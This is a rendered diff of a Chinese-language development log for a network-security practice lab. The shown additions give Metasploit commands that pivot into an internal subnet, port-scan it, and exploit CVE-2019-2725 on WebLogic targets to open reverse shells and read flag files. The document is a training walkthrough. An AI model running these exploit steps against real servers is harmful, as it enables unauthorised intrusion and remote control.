

Before and after one commit to lihan3238/Network-Security-Comprehensive-Practice, a Markdown page: 0_lihan3238/个人开发日志.md, 3 parts joined by grey strips. Shown at 94% size. GitHub-like rendering; pictures changed too: img/lihan3238_doc/error_4_2.png (added); blank space fills up the shorter version.

````diff
--- a/0_lihan3238/个人开发日志.md
+++ b/0_lihan3238/个人开发日志.md
@@ -622,7 +623,7 @@ route
 arp
 
 # 根据发现的内网信息，创建路由
-run autoroute -s 192.170.84.0/24
+run autoroute -s 192.177.84.0/24
 
 # 检查 Pivot 路由是否已创建成功
 run autoroute -p
@@ -637,7 +638,7 @@ use auxiliary/scanner/portscan/tcp
 show options
 
 # 设置目标 IP
-set RHOSTS 192.170.84.2-254
+set RHOSTS 192.177.84.2-254
 # 设置扫描端口范围
 ## 根据预知的信息 得知 7001 端口开放，实战环境需要扫描所有可能的端口
 set PORTS 7001
@@ -686,4 +686,25 @@ sessions -i [meterpreter 会话 ID]
 
 2. 攻破靶标 `victim-2-<2-4>`
 
+- kaliattacker
 
+```bash
+# search exploit
+search cve-2019-2725
+
+# getshell
+use 0
+show options
+set RHOSTS 192.177.84.3
+# 分别设置不同的靶机 IP
+#set RHOSTS 192.177.84.4
+#set RHOSTS 192.177.84.5
+
+set lhost 192.168.182.130
+# 分别 run
+run -j
+
+# get flag2-4
+sessions -c "ls /tmp" -i 3,4,5
+```
+
@@ -692,8 +792,27 @@ sessions -i [meterpreter 会话 ID]
+![error_4_2](../img/lihan3238_doc/error_4_2.png)
+
+### 参考
+
+- [ChatGPT](https://chatgpt.com/)
+
+- - -
+
+## 24.7.15: **多网段渗透场景攻防** 流量分析
+
+### 日志
+
+#### 流量分析
+
+- kalitargetserver
+使用 `` 打开 `./tcpdump/[]/` 目录下的流量文件 `tcpdump.pcap` ，使用 `wireshark` 分析流量
 
 
 
 ### 问题
 
+
 ### 参考
 
+- [ChatGPT](https://chatgpt.com/)
+
 - - -
````
Also changed, not shown: other parts of 0_lihan3238/个人开发日志.md (+85 -6 lines), README.md (+7 -6 lines), img/lihan3238_doc/error_4_1.png (added), 1 other file.
